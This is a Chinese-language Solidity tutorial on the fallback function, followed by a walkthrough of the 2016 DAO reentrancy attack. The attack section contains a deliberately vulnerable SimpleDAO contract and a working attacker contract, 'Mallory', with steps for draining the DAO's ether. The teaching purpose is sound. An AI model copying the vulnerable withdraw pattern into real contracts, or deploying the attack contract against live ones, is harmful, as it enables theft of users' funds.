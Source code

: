 # `fallback` 函数

一份合约可以有一个无名函数。该函数不能接收参数，也不能有返回。当调用合约时，如果没有函数与给定的函数签名匹配（或者根本没有指定），就执行`fallback`函数。

此外，只要合约收到以太币（无数据），就执行该函数。为了接收以太币，`fallback`函数必须标记为`payable`。

在最坏情况下，`fallback`函数只能依赖2300 gas，除了基本的日志记录外，几乎没有机会执行其他操作。以下操作将消耗多于2300天然气：

* 写存储
* 创建合约
* 调用消耗大量gas的外部函数
* 发送以太币

与其他函数类似，只要有足够的gas，`fallback`函数就可以执行复杂的操作。

**注：**即使`fallback`函数不能传入参数，让然可以使用`msg.data`检索任何调用提供的负载。

```solidity
pragma solidity ^0.4.0;contract Test {    function() public { x = 1; }    uint x;}

contract Sink {    function() public payable { }}

contract Caller {    function callTest(Test test) public {        test.call(0xabcdef01);    }}
```

所有调用`Test`合约的交易都会触发`fallback`函数。向该合约发送以太币会引起一场，因为`fallback`函数没有修饰字`payable`。

`Sink`合约将所有发送给它的以太币存入合约地址，无法取回。

如果`call`的哈希值不存在，`test.x`被赋值为1。

## DAO攻击

DAO是合约实现的众筹平台，在2016年6月18日被攻击前筹集了$150M。区块链硬分叉宣布攻击中的交易无效前，攻击者设法控制了$60M。

我们编写与原始DAO具有相同脆弱点的简化的`SimpleDAO`。

```solidity
pragma solidity ^0.3.1;

contract SimpleDAO {
  mapping (address => uint) public credit;
    
  function donate(address to) {
    credit[to] += msg.value;
  }
    
  function withdraw(uint amount) {
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
    }
  }  

  function queryCredit(address to) returns (uint){
    return credit[to];
  }
}
```

`SimpleDAO`允许参与者`donate`基金合约；`withdraw`基金。

合约`Mallory`是利用脆弱点的攻击。与真实使用在DAO上的攻击相似，`Mallory`允许攻击者从`SimpleDAO`中窃取所有的以太币。

首先，部署`Mallory`，构造时传入DAO的地址。

```
pragma solidity ^0.3.1;

contract Mallory {
  SimpleDAO public dao;
  address owner;

  function Mallory(SimpleDAO addr){ 
    owner = msg.sender;
    dao = addr;
  }
  
  function getJackpot() { 
    owner.send(this.balance); 
  }

  function() payable { 
    dao.withdraw(dao.queryCredit(this)); 
  }
}
```

然后，攻击者向`Mallory` `donate`以太币。等待他人增加DAO的余额。

最后，调用`Mallory`的`fallback`函数来清空DAO。`fallback`函数调用`withdraw`，将以太币发送给`Mallory`。合约中的`call`调用`Mallory`的`fallback`，恶意地再次调用`withdraw`。由于`withdraw`在更新`credit`域前中断了，所以余额检查再次成功。因此，DAO第二次向`Mallory`发送以太币，并再次调用`fallback`，导致循环，直到：1)gas耗尽；2)栈满；3)DAO的余额归零。


